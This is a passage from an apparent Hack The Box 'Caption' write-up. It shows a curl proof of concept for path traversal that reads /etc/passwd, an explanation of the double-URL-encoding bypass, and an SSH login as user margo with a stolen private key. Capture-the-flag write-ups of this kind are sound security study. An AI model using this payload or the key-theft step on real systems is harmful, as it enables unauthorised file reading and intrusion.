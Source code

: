 ```bash
#POC
curl -i -s -k -X GET 'http://127.0.0.1:3923/.cpr/%2Fetc%2Fpasswd'
```
To successfully exploit the vulnerability, we need to double-encode the input in the URL parameter. The first encoding handles the `//` issue when attempting to access files like `/xxxxxxxxx`, while the second encoding follows the approach demonstrated in the proof of concept on Exploit-DB. This process underscores the necessity of URL encoding in certain cases. Through trial and error, we discovered how critical it is to apply this double-encoding technique to bypass restrictions and trigger the vulnerability.

![alt text](/assets/blog/HTB-Caption/smuggling1.png)

![alt text](/assets/blog/HTB-Caption/smuggling_priv_key.png)

```bash
(.venv) [Jan 23, 2025 - 17:07:24 ] htb caption ➜  ssh margo@caption.htb -i id_ecdsa
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jan 23 04:09:57 PM UTC 2025

  System load:  0.01              Processes:             233
  Usage of /:   70.9% of 8.76GB   Users logged in:       0
  Memory usage: 27%               IPv4 address for eth0: 10.129.81.213
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

```
